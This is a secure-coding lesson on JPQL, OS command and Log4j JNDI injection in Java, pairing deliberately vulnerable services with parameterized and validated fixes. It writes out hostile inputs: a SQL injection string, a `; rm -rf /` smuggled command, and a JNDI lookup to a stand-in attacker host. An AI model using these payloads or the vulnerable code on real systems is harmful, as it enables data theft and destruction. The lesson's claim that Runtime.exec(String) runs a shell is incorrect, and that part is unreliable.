

# Module 03: Injection Attacks — JPQL Injection, OS Command Injection, and Mitigation

Welcome back, students. Today we analyze one of the most classical and destructive vulnerability families: **Injection (A03:2021)**.

Injection occurs when an application receives untrusted data, fails to sanitize or validate it, and passes it directly to an execution interpreter (such as a SQL engine, a system shell, or an LDAP directory). The interpreter parses the input as executable commands, enabling attackers to leak databases, modify files, or execute arbitrary code. We will study the mechanics of **JPQL Injection**, **OS Command Injection**, **Log4Shell (JNDI)**, and refactor code to use parameterized executions.

---

## 1. Academic Lecture: The Interpreter Confusion

The root cause of all injection vulnerabilities is **interpreter confusion**: the failure to distinguish between static code instructions and user-controlled data. When user input is concatenated directly into instructions, the parser interprets user characters (like `'`, `;`, `|`, `&`) as control operators.

### ORMs Do Not Prevent SQL Injection

Many developers believe that using an Object-Relational Mapper (like Hibernate or Spring Data JPA) automatically protects them from SQL Injection. 

This is a dangerous misconception. If you write dynamic JPQL or HQL queries using string concatenation, the JPA parser is just as vulnerable to SQL Injection as raw JDBC.

```
Vulnerable Concatenated JPQL Query:
String jpql = "SELECT u FROM User u WHERE u.username = '" + userInput + "'";
```

If the attacker inputs: `admin' OR '1'='1`, the compiled query becomes:
```sql
SELECT u FROM User u WHERE u.username = 'admin' OR '1'='1'
```
The ORM engine compiles this instruction, bypasses the username check, and returns all users, including the administrator account.

### OS Command Injection

Command injection occurs when Java executes operating system commands using `Runtime.getRuntime().exec()` or `ProcessBuilder`, and concatenates user input directly into the shell string.



If a system takes a filename parameter to display text: `cat <filename>`, and the user inputs `file.txt; rm -rf /`, a shell-invoking runtime process will execute both commands, deleting directories.

---

## 2. Theory vs. Production Trade-offs

### Prepared Statements vs. Dynamic Query Specifications
*   **Prepared Statements (Named Parameters)**: The database compiles the SQL query structure once. User parameters are passed inside a separate data packet. The database engine never interprets the parameters as SQL commands.
*   **Dynamic Query Builders (JPA Criteria API)**:
    *   *Trade-off*: When building complex search filters dynamically, concatenating strings is easy but insecure. Using the JPA Criteria API or Querydsl is secure, but requires verbose Java code, increasing development overhead.

---

## 3. How to Use: Parameterizing Queries and Hardening Processes

Let's write a complete, compile-grade Java 21 comparison illustrating:
1.  **Vulnerable Code**: Dynamic JPQL concatenation and unsafe process execution.
2.  **Secured Code**: Named parameter refactoring and safe `ProcessBuilder` validation.

First, let's write our User entity class:

```java
package com.capstone.security.injection;

import jakarta.persistence.Entity;
import jakarta.persistence.Id;
import jakarta.persistence.Table;

@Entity
@Table(name = "system_users")
public class UserEntity {
    @Id
    private String id;
    private String username;
    private String email;

    public UserEntity() {}

    public UserEntity(String id, String username, String email) {
        this.id = id;
        this.username = username;
        this.email = email;
    }

    public String getUsername() { return username; }
}
```

### The Vulnerable Implementation:

```java
package com.capstone.security.injection;

import jakarta.persistence.EntityManager;
import jakarta.persistence.Query;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.List;

public class VulnerableInjectionService {

    private final EntityManager entityManager;

    public VulnerableInjectionService(EntityManager entityManager) {
        this.entityManager = entityManager;
    }

    /**
     * VULNERABLE JPQL SQLi.
     * The input parameter 'userInput' is concatenated directly into the query string.
     */
    @SuppressWarnings("unchecked")
    public List<UserEntity> findUsersByUsernameVulnerable(String userInput) {
        String queryStr = "SELECT u FROM UserEntity u WHERE u.username = '" + userInput + "'";
        Query query = entityManager.createQuery(queryStr);
        return query.getResultList();
    }

    /**
     * VULNERABLE OS COMMAND INJECTION.
     * User input is passed directly to the runtime shell command interpreter.
     */
    public String executeSystemPingVulnerable(String targetIp) throws Exception {
        String command = "ping -c 3 " + targetIp;
        Process process = Runtime.getRuntime().exec(command); // Invokes shell parser
        
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        StringBuilder output = new StringBuilder();
        String line;
        while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
        }
        return output.toString();
    }
}
```

### The Secured Implementation:

To secure our data layers, we refactor the JPQL query to use **Named Parameters** (`:paramName`). 

To secure our process executions, we:
1.  Verify the input against a strict regular expression whitelist.
2.  Use `ProcessBuilder` with arguments passed as separate array elements, avoiding shell expansions.

```java
package com.capstone.security.injection;

import jakarta.persistence.EntityManager;
import jakarta.persistence.TypedQuery;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.List;
import java.util.Objects;
import java.util.regex.Pattern;

public class SecuredInjectionService {

    private final EntityManager entityManager;
    
    // Strict IP Address Regex whitelist (rejects shell metacharacters like ;, &, |)
    private static final Pattern IP_PATTERN = Pattern.compile("^\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}$");

    public SecuredInjectionService(EntityManager entityManager) {
        this.entityManager = entityManager;
    }

    /**
     * SECURED JPQL.
     * Uses named parameters. The database compiles the query structure prior to binding parameter values.
     */
    public List<UserEntity> findUsersByUsernameSecurely(String userInput) {
        Objects.requireNonNull(userInput, "Username input cannot be null");

        String queryStr = "SELECT u FROM UserEntity u WHERE u.username = :uname";
        TypedQuery<UserEntity> query = entityManager.createQuery(queryStr, UserEntity.class);
        
        // Bind parameter safely
        query.setParameter("uname", userInput);
        return query.getResultList();
    }

    /**
     * SECURED OS COMMAND EXECUTION.
     * 1. Validates targetIp against a strict whitelist.
     * 2. Passes arguments as separate elements to ProcessBuilder, preventing shell interpretation.
     */
    public String executeSystemPingSecurely(String targetIp) throws Exception {
        Objects.requireNonNull(targetIp, "Target IP cannot be null");
        
        // Step 1: Whitelist verification
        if (!IP_PATTERN.matcher(targetIp).matches()) {
            throw new IllegalArgumentException("Invalid target IP format. Blocked command execution.");
        }

        // Step 2: Pass arguments in separate list slots (bypasses OS command shell parser)
        ProcessBuilder pb = new ProcessBuilder("ping", "-c", "3", targetIp);
        Process process = pb.start();

        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        StringBuilder output = new StringBuilder();
        String line;
        while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
        }
        return output.toString();
    }
}
```

---

## 4. Common Errors & Pitfalls

### Pitfall 1: Relying on Simple Character escaping/Replacing
Attempting to sanitize SQL queries manually by replacing single quotes (e.g., `input.replace("'", "''")`).
*   **Why it fails**: Attackers find bypass vectors using alternate encodings, backslashes, or numeric injection paths that do not require quote characters.
*   **Mitigation**: Always use parameterized queries. Never write custom sanitization routines.

### Pitfall 2: Executing OS commands inside Web application containers
*   **Symptom**: Root container compromise under injection.
*   **Why**: The application JVM runs with high system privileges (e.g. `root`), permitting commands to alter host systems.
*   **Mitigation**: Run application containers as non-root users (configure `USER nonroot` in Dockerfiles) and restrict execution permissions using OS-level profiles (such as AppArmor or SELinux).

---

## 5. Socratic Review Questions

### Question 1
Why does passing arguments as a list to `ProcessBuilder` (e.g. `new ProcessBuilder("ping", "-c", "3", targetIp)`) prevent OS Command Injection, whereas `Runtime.getRuntime().exec("ping -c 3 " + targetIp)` is vulnerable?

#### Answer
*   `Runtime.getRuntime().exec(String command)` parses the entire input string using a **Command Shell Interpreter** (such as `/bin/sh` or `cmd.exe`). The shell parses the string, identifies control tokens (like `;`, `&`, `|`), and executes them as separate commands.
*   `ProcessBuilder(String... command)` bypasses the shell interpreter entirely. It makes a direct native operating system call (`execve`) passing the arguments directly as an array of pointers to the binary program (`ping`). The OS binary treats the entire target IP string as a literal parameter, without interpreting shell control operators, neutralizing the injection.

### Question 2
Explain the mechanism of **JNDI Injection** (which caused the Log4Shell vulnerability in Log4j).

#### Answer
Log4j evaluated JNDI lookups inside log message strings. An attacker could log a string containing: `${jndi:ldap://attacker.com/a}`.
When Log4j processed the log, it:
1.  Parsed the JNDI lookup expression.
2.  Initiated a network connection to the attacker's LDAP server (`attacker.com`).
3.  The LDAP server returned a reference pointing to an external Java classfile (e.g., `Exploit.class`).
4.  The JVM downloaded the classfile over the network, loaded it into memory, and executed its constructor, leading to remote code execution (RCE).

---

## 6. Hands-on Challenge: Building a Safe Input Validator

### The Challenge
In this challenge, you will implement the validation logic for an OS command executor helper class. 

Given a string representing a directory filename to audit, you must:
1.  Verify the string contains only alphanumeric characters and a single dot extension (`^[a-zA-Z0-9]+\\.[a-zA-Z0-9]+$`).
2.  Throw an `IllegalArgumentException` if the string contains any shell meta-characters (such as `;`, `&`, `|`, `$`, `\n`).

Complete the sanitization checking logic inside the class below:

```java
package com.capstone.security.injection.challenge;

import java.util.regex.Pattern;

public class InputCommandSanitizer {

    private static final Pattern SAFE_FILE_PATTERN = Pattern.compile("^[a-zA-Z0-9]+\\.[a-zA-Z0-9]+$");

    /**
     * Verifies if the filename is safe for command argument use.
     * Throws IllegalArgumentException if validation checks fail.
     */
    public void validateFilename(String filename) {
        if (filename == null) {
            throw new IllegalArgumentException("Filename cannot be null");
        }

        // TODO: Complete this implementation.
        // 1. Verify filename matches SAFE_FILE_PATTERN.
        // 2. Throw IllegalArgumentException if it does not match.
    }
}
```

Write your code and verify the validation mapping. Save your solution notes inside `modules/03-injection-attacks.md`.
